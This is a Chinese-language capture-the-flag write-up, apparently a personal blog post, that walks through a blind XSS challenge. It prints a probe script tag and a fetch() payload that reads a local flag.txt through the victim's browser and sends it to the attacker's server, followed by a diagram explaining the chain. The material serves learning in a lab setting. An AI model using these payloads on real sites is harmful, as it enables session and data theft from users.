








# 



### 访问提示给的网站,显示未认证,猜想大概是是有一个隐藏的字段用来认证身份的,抓包看一下



## 但是啥都没有



## 进去网站的里面看看



### 很明显了,应该是个盲打xss,发送一个探针看一下,先开个web服务,接收回来的响应



# 注意先个攻击机器的防火墙端口放行哦,我说怎么一直收不到探针回复,卡了我一晚上,哈哈


```bash
 <script src='http://192.168.128.166:8089/huenpnn.txt'></script>
```



# 探针成功了

### 我的目标是访问目标机器上的flag.txt文件,直接用fetch()函数让对方浏览器自己访问就好了,然后把结果回传给我们

```
<script>
fetch('http://localhost:8080/flag.txt')
  .then(r => r.text())
  .then(d => fetch('http://192.168.128.166:8089/?flag=' + encodeURIComponent(d)));
</script>
```

text

fetch('...flag.txt')          ← 发请求
        │
        │ 请求成功，得到一个"响应对象"
        ▼
   ┌─────────┐
   │ 响应对象 │  ← 这个对象被叫做 r
   └─────────┘
        │
        │ .then(r => r.text())
        │ 把响应对象 r 转成文本
        ▼
   ┌─────────┐
   │ 文本内容 │  ← 这个文本被叫做 d
   └─────────┘
        │
        │ .then(d => fetch('...?flag=' + d))
        │ 把文本 d 拼进 URL 发出去
        ▼
   攻击者服务器收到 flag

# r和d是变量名字,可以随意定义



# 成功了,然后上浏览器的控制台decodeURL



## 攻击链路:

### 盲打xss+ssrf获取敏感文件


